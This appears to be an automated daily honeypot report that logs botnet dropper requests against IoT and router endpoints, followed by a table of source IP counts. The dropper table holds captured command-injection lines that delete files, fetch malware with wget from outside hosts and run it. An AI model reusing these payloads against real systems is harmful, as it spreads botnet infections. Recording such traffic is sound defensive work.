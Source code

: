 ```yaml
---
title: "Report: 2025-02-04 "
date: 2025-02-04
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-02-04
interaction report on http service of various Hhoneypot around the world.
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of source IP addresses](#list_of_source_ip_addresses)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## botnet_dropper_behaviour
|    | remote_addr     | request                                                                                                                                                                                      |
|---:|:----------------|:---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|  0 | 147.139.247.218 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 103.241.65.218/selfreps/telnet.arm5;chmod+777+/tmp/telnet.arm5;sh+/tmp/telnet.arm5 HTTP/1.1                                                                |
|  1 | 109.162.45.227  | GET /shell?cd+/tmp;rm+-rf+*;wget+ 103.241.65.218/selfreps/telnet.arm5;chmod+777+/tmp/telnet.arm5;sh+/tmp/telnet.arm5 HTTP/1.1                                                                |
|  2 | 103.199.180.15  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://103.199.180.15:54732/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                |
|  3 | 141.255.166.90  | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F178.162.172.219%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1 |
|  4 | 130.61.176.83   | GET /shell?cd+/tmp;rm+-rf+*;wget+ 103.241.65.218/selfreps/telnet.arm5;chmod+777+/tmp/telnet.arm5;sh+/tmp/telnet.arm5 HTTP/1.1                                                                |
|  5 | 8.219.110.243   | GET /shell?cd+/tmp;rm+-rf+*;wget+ 103.241.65.218/selfreps/telnet.arm5;chmod+777+/tmp/telnet.arm5;sh+/tmp/telnet.arm5 HTTP/1.1                                                                |

## list_of_source_IP_addresses
|     |   number_of_occurence | remote_addr     |
|----:|----------------------:|:----------------|
|   0 |                  1119 | 45.148.10.242   |
|   1 |                    45 | 175.148.77.123  |
|   2 |                    42 | 141.255.166.90  |
|   3 |                    34 | 78.153.140.203  |
|   4 |                    31 | 78.153.140.177  |
|   5 |                    30 | 92.255.57.58    |
|   6 |                    24 | 139.59.5.43     |
|   7 |                    24 | 78.153.140.149  |
|   8 |                    18 | 46.19.138.234   |
|   9 |                    16 | 80.82.77.202    |
|  10 |                    14 | 18.217.241.151  |
|  11 |                    12 | 179.43.191.146  |
|  12 |                    12 | 45.58.159.234   |
|  13 |                    12 | 165.22.212.211  |
|  14 |                    12 | 164.90.231.253  |
|  15 |                    12 | 138.68.180.96   |